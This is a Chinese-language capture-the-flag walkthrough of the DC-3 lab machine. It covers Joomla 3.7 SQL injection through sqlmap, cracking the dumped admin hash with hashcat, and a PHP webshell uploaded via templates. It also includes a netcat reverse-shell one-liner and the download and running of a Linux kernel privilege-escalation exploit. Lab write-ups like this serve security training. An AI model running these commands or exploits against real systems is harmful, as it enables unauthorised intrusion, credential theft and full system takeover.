







# VulHub--DC-3

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -sC -T4 -A -p- 192.168.20.146
```



结果:
80端口 Apache httpd 2.4.18 (Ubuntu)

### 目录扫描

```bash
dirsearch -u 'http://192.168.20.146'
```



#### 管理员页面访问

访问```http://192.168.20.146/administrator/index.php```跳转至登录界面发现是joomlaCMS框架



### 漏洞利用

#### joomla3.7 SQL注入

查看README.txt文件发现joomla版本为3.7
尝试搜索joomla 3.7 漏洞,发现存在sql注入

```
ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1
```

注入点为```list[fullordering]```

使用sqlmap自动化注入

```bash
sqlmap -u 'http://192.168.20.146/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1' --dbs --batch
```

结果:

```
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
```

继续注入joomladb数据库

```bash
sqlmap -u 'http://192.168.20.146/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1' -D joomladb --tables --batch
```

结果:

```
[75 tables]
+--------------------+
| #__assets          |
| #__associations    |
| #__banner_clients  |
| #__banner_tracks   |
| #__banners         |
| #__bsms_admin      |
| #__bsms_books      |
| #__bsms_comments   |
| #__bsms_locations  |
| #__bsms_mediafiles |
| #__bsms_message_ty |
| #__bsms_podcast    |
| #__bsms_series     |
| #__bsms_servers    |
| #__bsms_studies    |
| #__bsms_studytopic |
| #__bsms_teachers   |
| #__bsms_templateco |
| #__bsms_templates  |
| #__bsms_timeset    |
| #__bsms_topics     |
| #__bsms_update     |
| #__categories      |
| #__contact_details |
| #__content_frontpa |
| #__content_rating  |
| #__content_types   |
| #__content         |
| #__contentitem_tag |
| #__core_log_search |
| #__extensions      |
| #__fields_categori |
| #__fields_groups   |
| #__fields_values   |
| #__fields          |
| #__finder_filters  |
| #__finder_links_te |
| #__finder_links    |
| #__finder_taxonomy |
| #__finder_terms_co |
| #__finder_terms    |
| #__finder_tokens_a |
| #__finder_tokens   |
| #__finder_types    |
| #__jbsbackup_times |
| #__jbspodcast_time |
| #__languages       |
| #__menu_types      |
| #__menu            |
| #__messages_cfg    |
| #__messages        |
| #__modules_menu    |
| #__modules         |
| #__newsfeeds       |
| #__overrider       |
| #__postinstall_mes |
| #__redirect_links  |
| #__schemas         |
| #__session         |
| #__tags            |
| #__template_styles |
| #__ucm_base        |
| #__ucm_content     |
| #__ucm_history     |
| #__update_sites_ex |
| #__update_sites    |
| #__updates         |
| #__user_keys       |
| #__user_notes      |
| #__user_profiles   |
| #__user_usergroup_ |
| #__usergroups      |
| #__users           |
| #__utf8_conversion |
| #__viewlevels      |
+--------------------+
```

注出#__users表结果为:

```
admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

使用hashcat爆破不同字典,发现密码为```snoopy```
```bash
hashcat -m 3200 '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' '/usr/share/wordlists/john.lst'
```
### 后台登录

成功登入后台



后台文章中唯一提示flag的位置在root下

```
Welcome to DC-3.

This time, there is only one flag, one entry point and no clues.

To get the flag, you'll obviously have to gain root privileges.

How you get to be root is up to you - and, obviously, the system.

Good luck - and I hope you enjoy this little challenge.  :-)
```

### 提权

#### web权限

发现template模块可以上传php文件,上传1.php木马


找到```/templates/beez3/html```目录,发现我们上传的1.php木马



使用蚁剑连接,因为蚁剑的终端有问题,所以我们反弹shell至本机

```bash
cd tmp
mknod backpipe p && nc 192.168.20.135 3333 0<backpipe | /bin/bash 1>backpipe
```

#### root权限

查看内核版本发现版本为Ubuntu16.04

```bash
lsb_release -a
```

搜索漏洞

```bash
searchsploit ubuntu 16.04
```

因为靶机是32位使用好多exp都不行,使用39772可以
在靶机下载exp

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip

cd 39772

tar -xvf exploit.tar

cd ebpf_mapfd_doubleput_exploit

./compile.sh

./doubleput
```

